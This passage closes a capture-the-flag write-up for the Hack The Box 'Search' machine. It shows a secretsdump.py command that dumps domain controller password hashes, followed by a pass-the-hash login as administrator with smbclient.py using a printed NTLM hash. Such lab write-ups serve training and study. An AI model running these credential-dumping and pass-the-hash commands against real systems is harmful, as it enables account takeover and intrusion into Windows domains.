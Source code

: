 ```
┌──(muzec㉿Muzec-Security)-[~/Documents/HTB/10.10.11.129]                                                                                                              
└─$ secretsdump.py search.htb/tristan.davies:password@10.10.11.129 -just-dc 
```

![image](https://user-images.githubusercontent.com/69868171/154512250-934b70c5-3082-4596-bcb6-124a948510ad.png)

Let it rain hashes XD. Now that we have the hashes of the admin we can easily use `Pass The Hash` to get access to the target to get the `root.txt` flag.

```
┌──(muzec㉿Muzec-Security)-[~/Documents/HTB/10.10.11.129]
└─$ smbclient.py -hashes aad3b435b51404eeaad3b435b51404ee:5e3c0abbe0b4163c5612afe25c69ced6 administrator@search.htb
```

![image](https://user-images.githubusercontent.com/69868171/154513484-d6eaf35d-95b5-49dd-b2e4-bde60d13ffe9.png)


![image](https://user-images.githubusercontent.com/69868171/154513624-fda8b459-cbba-4234-9850-f32698a2fb38.png)

We are done Boom hope you have fun.

A quick notice:- i was unable to get a proper cmd shell or powershell since we keep getting blocked by the AV would really love to know if anyone find another way to get a proper shell peace out.

Greeting From [Muzec](https://twitter.com/muzec_saminu)

<br> <br>
[Back To Home](../index.md)
<br>

